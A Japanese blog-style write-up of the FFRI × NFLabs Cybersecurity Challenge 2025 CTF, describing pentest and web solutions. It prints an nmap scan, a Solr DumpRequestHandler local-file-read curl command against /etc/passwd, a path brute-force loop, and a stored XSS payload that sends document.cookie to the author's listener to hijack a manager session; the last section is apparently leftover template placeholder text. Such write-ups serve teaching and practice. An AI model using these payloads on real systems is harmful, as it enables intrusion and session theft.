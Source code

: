 ```yaml
---
title: "FFRI × NFLabs. Cybersecurity Challenge 2025 Writeup & Upsolve"
date: 2025-09-15
description: "参加記と一部アップソルブ。SolrのLFI経由でflag取得まで。"
---
```


# FFRI × NFLabs. Cybersecurity Challenge 2025 Writeup

FFRI × NFLabs. Cybersecurity Challenge 2025 に参加し、結果は **13位** でした。Top10入りを目標にしていたので悔しい……。

![ranking](/src/content/image/FFRI_NFLabs_ranking.png)

## Welcome [ 1/1 ]

### Welcome [175pt / 66 solves]
提出のみ。

```
flag{Good_Luck_and_Have_Fun!}
```

---

## Pentest [ 3/7 ]

### HiddenService [255pt / 50 solves]

`nmap` で 22/tcp (ssh)、31337/tcp (Apache) を確認。

```bash
$ nmap 10.0.129.138 -sV
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-15 16:51 JST
Nmap scan report for ip-10-0-129-138.ap-northeast-1.compute.internal (10.0.129.138)
Host is up (0.0017s latency).
Not shown: 998 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
31337/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.53 seconds
```

31337 番にアクセスすると簡易シェルに入れたため、`ls`/`cat` で探索して `flag.txt` を取得。

![Hidden_result](/src/content/image/Hidden_result.png)

```
flag{Ch4nging_th3_p0rt_is_p0intl3ss}
```

---

### Shell4Solr [455pt / 16 solves]

`nmap` で 80/tcp (Apache Solr)、2222/tcp (ssh) を確認。80 番は **Apache Solr 8.11.0** の管理画面。

```bash
$ nmap 10.0.129.148 -sV
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-15 17:19 JST
Nmap scan report for ip-10-0-129-148.ap-northeast-1.compute.internal (10.0.129.148)
Host is up (0.0017s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache Solr
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.51 seconds
```

ログ画面（`/admin/info/logging`）に **`authentication=disabled, authorization=disabled`** と表示。
![warn](/src/content/image/Solr_warn.png)
Solr にはデバッグ用途の **DumpRequestHandler** があり、`ContentStreams (stream.*)` をそのまま返すため、認証なしで開いていれば **LFI** が狙えると判断。
まずは `/etc/passwd` を読めるか検証：

```bash
curl -s "http://10.0.129.128:80/solr/$CORE/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd"
```

<details>
<summary><b>レスポンス（抜粋・JSON）</b></summary>

```json
{
  "responseHeader": { "status": 0, "handler": "org.apache.solr.handler.DumpRequestHandler" },
  "params": { "stream.url": "file:///etc/passwd", "param": "ContentStreams" },
  "streams": [
    {
      "sourceInfo": "url",
      "stream": "root:x:0:0:root:/root:/bin/ash\n...snip...\nsolr:x:1000:1000:Linux User,,,:/opt/solr:/bin/ash\n"
    }
  ]
}
```
</details>

`HOME=/opt/solr`, `PWD=/opt/solr/server` などから flag の置き場所を当たり、いくつかの典型パスを総当たり。

```bash
CORE=${CORE:-core0}
BASE="http://10.0.129.128:80/solr/$CORE/debug/dump?param=ContentStreams&stream.url=file://"

for p in \
  /etc/flag /etc/flag.txt \
  /opt/flag /opt/flag.txt \
  /var/flag /var/flag.txt \
  /opt/solr/flag /opt/solr/flag.txt \
  /opt/solr/server/flag /opt/solr/server/flag.txt \
  /opt/solr/server/solr/flag /opt/solr/server/solr/flag.txt \
  /var/solr/flag /var/solr/flag.txt \
  /run/secrets/flag /run/secrets/flag.txt /run/secrets/FLAG \
  /etc/motd /etc/issue /etc/hostname
do
  echo "=== $p"
  curl -s "${BASE}$p"
  echo
done
```

`/opt/solr/server/flag.txt` でヒット：

<details>
<summary><b>レスポンス（JSON）</b></summary>

```json
{
  "responseHeader": { "status": 0 },
  "params": { "stream.url": "file:///opt/solr/server/flag.txt" },
  "streams": [
    { "sourceInfo": "url", "stream": "flag{l0g4j_s0lr_r3vshell}" }
  ],
  "context": { "path": "/debug/dump", "httpMethod": "GET" }
}
```
</details>

```
flag{l0g4j_s0lr_r3vshell}
```

> 余談：当初は Log4Shell の RCE PoC を試したがJDK17でビルドがうまくいかず、GPTに聞きながら1時間くらい格闘してました

---

## Web [ 3/4 ]
### Secure Web Company [300pt / 41 solves]
Dockerfileを見るとREADME.mdが公開されていた。
```Dockerfile
FROM nginx:alpine
COPY index.html script.js style.css README.md /usr/share/nginx/html/
```
```bash
$ curl http://10.0.129.147:8090/README.md 
# 開発者向け

## 管理画面認証情報

- ユーザー名: admin
- パスワード: flag{5up3r53cr37_4dm1n_p455w0rd}
```
```
flag{5up3r53cr37_4dm1n_p455w0rd}
```

### Timecard [380pt / 25 solves]
問題文を読んで、managerのアカウントが1分に1回申請を承認するようになっていたのでStored XSSを使う問題なのかとなぁと思いながら問題を解き始めた。案の定app.pyを見ると、`HttpOnly=false`となっていた。
加えてmanager側の`manager_dashboard.html.js`で`{{ remarks }}`をそのままhtmlとして解釈できるようになっていた。
```PY
app.config['SESSION_COOKIE_HTTPONLY'] = False
app.config['SECRET_KEY'] = SECRET_KEY
app.config['SQLALCHEMY_DATABASE_URI'] = f"mysql+pymysql://{MYSQL_USER}:{MYSQL_PASSWORD}@{MYSQL_HOST}/{MYSQL_DATABASE}"
```
```html
    <ul>
        {% for timecard in timecards %}
            <li>
                {{ timecard.date }}: {{ timecard.start_time }} - {{ timecard.end_time }} ({{ timecard.remarks }})
                <!-- 状態表示 -->
                {% if timecard.cancel_requested %}
                    - <span style="color:orange;">取り消し申請中</span>
                    <form action="{{ url_for('approve_timecard', timecard_id=timecard.id) }}" method="post" style="display:inline;">
                        <button type="submit">取り消し申請承認</button>
                    </form>
                {% elif timecard.approved %}
                    - <span style="color:green;">承認済み</span>
                {% else %}
                    - <span style="color:red;">未承認</span>
                    <form action="{{ url_for('approve_timecard', timecard_id=timecard.id) }}" method="post" style="display:inline;">
                        <button type="submit">承認</button>
                    </form>
                {% endif %}
            </li>
        {% endfor %}
    </ul>
```
これを使ってStored XSSを行う。managerが1分に1回承認しに来るので、そこに`document.cookie`を仕込むことでmanagerのsessionを奪う。まずは待ち受けを立てる
```PY
python3 -m http.server 8000
```
後はremarksの部分にStored XSSを仕込む
```
<img src=x onerror="new Image().src='http://10.0.0.49:8000/?c='+encodeURIComponent(document.cookie)">
```
するとmanagerからのcookieがStored XSSによって窃取できたので、それを自身のcookieにセットする。それでflagが得られた。
```
flag{H9aDSMkTCWZMEuk25nZw}
```

## Malware Analysis [ 2/4 ]
### Downloader
（省略）

## Binary [ 2/4 ]
### Abnormal
（省略）

## Misc [ 3/4 ]
### Bellaso

```js
const hello = () => {
  console.log("Hello, World!");
};
```

> 引用テキストの例です。

[リンクの例](https://example.com)

**太字**や*斜体*のテキストも使用できます。
